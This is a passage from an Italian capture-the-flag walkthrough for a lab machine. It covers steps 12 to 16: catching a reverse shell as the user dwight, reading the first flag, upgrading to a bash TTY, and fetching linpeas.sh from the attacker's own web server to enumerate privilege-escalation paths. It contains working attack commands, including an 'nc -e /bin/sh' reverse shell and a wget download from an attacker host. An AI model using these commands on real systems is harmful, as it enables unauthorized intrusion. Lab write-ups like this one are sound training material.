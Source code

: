 ```zsh
$ nc -e /bin/sh {IP tun0} 4444
```
/bin/sh = shell </p>
IP tun0 =su terminale -> ifconfig OPPURE ip addr -> cercate tun0 e trovate inet che è l'ip che ci serve

## 12) Collegati:

Scriviamo nello stesso terminale -> id -> scopriamo che siamo dentro come dwight

## 13) Troviamo la prima Flag:

ls -> dir .. 

Vediamo che nella direcotry prima esiste "user.txt"

scriviamo quinti -> cat ../user.txt

Così otteniamo la prima flag

## 14) Apriamo bash:

Inseriamo questo comando "python3 -c 'import pty; pty.spawn("/bin/bash")'" in modo che si apra in bash non più shell.
Scriviamo Python3 se non funziona si scrive Python

## 15) Guardiamo cosa c'è nelle varie directory :
 notiamo che esiste il file linpeas.sh

 Se non c'è il file linpeas.sh -> "https://github.com/carlospolop/PEASS-ng/releases/tag/20220220" lo scaricate da qui.

## 15 B ) Come mettere linpeas.sh nel caso non ci fosse :

 Si va nella directory dove si è scaricato e aprite il terminale li

```zsh
$ python3 -m http.server 80
```

POI andate nel terminale dove sta " nc " in cui siete collegati al bot e scrivete 

```zsh
$ wget  {IP tun0}/linpeas.sh
```

## 16) Facciamo partire linpeas.sh:

```zsh
$ ./linpeas.sh
```
se non parte subito scrivete

```zsh
$ chmod +x linpeas.sh
```
poi fate ripartire 
